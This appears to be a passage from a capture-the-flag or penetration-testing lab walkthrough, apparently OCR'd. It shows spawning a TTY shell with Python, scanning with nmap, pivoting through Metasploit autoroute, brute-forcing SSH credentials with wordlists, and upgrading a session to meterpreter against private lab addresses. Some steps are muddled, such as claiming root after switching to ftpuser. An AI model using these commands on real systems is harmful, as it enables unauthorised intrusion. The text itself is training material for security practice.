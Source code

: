 ```bash
su ftpuser //we need to be a terminal to do so so we will use python to create a terminal
python -c 'import pty;pty.spawn("/bin/bash")';

su ftpuser //now we got root after writing the password(ftpuser)
```

you can check for the flag in the www by ls -al as a hidden file so you need root to actually read it.

then will move the backups folder to www so we can download it using this command:

```bash
└─$ wget -mpEK http://172.16.37.234:40180/backups       
```

in that machine nmap is installed scan network:

```bash
root@xubuntu:/var/www nmap -sS 172.16.50.222

Nmap scan report for 172.16.50.222
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:50:56:8E:88:F6 (VMware)

```

&#x20;you will notice target 1 also got ssh to access you will need to CTR+Z + autoroute:

```bash
run autoroute -s 172.16.50.0/24
meterpreter > run autoroute -p //print all routes
```

#### now we will guess SSH creds using metasploit:

```bash
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 172.16.50.222
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

some time will go and new session will be created:

```bash
sessions -i 2
bash -i 
ls -al /will se the flag

//if you want you can change it to a meterpreter just like networking explined under eJPT
use post/multi/manage/shell_to_meterpreter
set LHOST 172.16.50.244
set session <shell_session_id>
run
```

